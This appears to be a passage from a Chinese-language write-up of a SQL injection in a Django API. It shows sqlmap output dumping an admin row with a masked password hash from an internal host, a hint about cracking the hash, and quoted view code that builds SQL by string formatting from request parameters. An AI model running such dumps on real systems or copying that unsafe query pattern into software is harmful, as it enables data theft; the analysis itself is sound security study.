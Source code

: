 	+----+---------+----------+--------------------------------------------------------------------------------+----------+-----------+-----------+------------+----------------------------+----------------------------+--------------+
	| 1  | <blank> | 1        | pbkdf2_sha256$150000$lxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx | admin    | 1         | <blank>   | <blank>    | 2018-04-14 18:16:53.846708 | 2018-03-26 11:56:54.734852 | 1            |
	+----+---------+----------+--------------------------------------------------------------------------------+----------+-----------+-----------+------------+----------------------------+----------------------------+--------------+
	
	[14:26:11] [INFO] table 'itapidb.auth_user' dumped to CSV file '/Users/didi/.sqlmap/output/172.20.201.203/dump/itapidb/auth_user.csv'
	[14:26:11] [INFO] fetched data logged to text files under '/Users/didi/.sqlmap/output/172.20.201.203'
	
	
这里密码做了隐藏，将表的内容dump下来，发现存在`admin`用户，密码是经过`Django` `pbkdf2_sha256`加密的。可以通过Django的加密，对比进行密码破解。

### Sqlmap 更多命令

可以参考一个博客：

[https://vul-hunters.oschina.io/hunter-blogs/posts/sec-tools-sqlmap/]()

## 3 漏洞分析

源代码：

	class ApisRecordView(APIView):
		def get(self,request,*args,**kwargs):
			#sqlcmd = "SELECT * FROM rest_framework_tracking_apirequestlog where status_code != 200"
			queryMinId = int(self.request.query_params.get('queryMinId'))
			queryMaxId = int(self.request.query_params.get('queryMaxId'))
			hasIdNumber = int(self.request.query_params.get('hasIdNumber'))
			eachQueryNumber = int(self.request.query_params.get('eachQueryNumber'))
			queryMethod = self.request.query_params.get('method')
			SqlQuertUp = "SELECT * FROM rest_framework_tracking_apirequestlog where method = %s AND id > %s ORDER BY id DESC"
			
			sqlQueryNewestRecords = dbOperate.execute(SqlQuertUp,[queryMethod,queryMinId])
			if(sqlQueryNewestRecords) :
				queryMinId = sqlQueryNewestRecords[0]["id"]

			xxx
			return response

	class ApisDashboardViewSet(viewsets.ModelViewSet):
		queryset = ApisModel.objects.all()
		serializer_class = ApisSerializer

		@action(detail=False, methods=['GET'], url_path='frequency', url_name="dashboard_frequency")
		def frequency(self,request, *args, **kwargs) :
			contentList = []
			queryMethod = self.request.query_params.get('method')
			topCount = self.request.query_params.get('topCount')
			sqlQueryTopCount = "SELECT path as itemPath, count(*) as count from rest_framework_tracking_apirequestlog  WHERE method = '{0}' GROUP BY path ORDER BY count DESC LIMIT {1};".format(queryMethod,topCount)
			sqlExecResult = dbmodel().execute(sqlQueryTopCount)
			if(sqlExecResult) :
				contentList = sqlExecResult
			xxxxx
			return response
